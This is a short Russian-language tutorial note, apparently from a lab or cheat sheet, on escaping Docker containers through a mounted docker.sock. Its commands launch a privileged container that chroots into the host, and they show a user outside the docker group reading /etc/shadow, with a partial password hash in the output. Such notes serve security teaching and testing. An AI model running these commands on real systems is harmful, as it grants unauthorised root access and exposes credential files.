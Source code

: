 Запускаем уязвимый контейнер
```bash
docker run -it -v /var/run/docker.sock:/run/docker.sock docker:dind /bin/sh
```

Внутри контейнера запускаем новый привилегированный контейнер
```bash
docker run -it --privileged -v /:/host/ ubuntu bash -c "chroot /host/"
```

(Если вдруг не работает `apt update` внутри контейнера)
```bash
cat <<EOF > /etc/apt/apt.conf.d/sandbox-disable
APT::Sandbox::User "root";
EOF
```

Эксплуатация Docker-Socket-а пользователем без прав на docker
```
(host)$ groups | grep -o docker
(host)$ ls -l /var/run/docker.sock
srw-rw-rw- 1 root docker 0 Dec 20 13:16 /var/run/docker.sock
(host)$ docker run -it --rm -v /:/host ubuntu:latest bash (cont)# grep admin /host/etc/shadow admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
```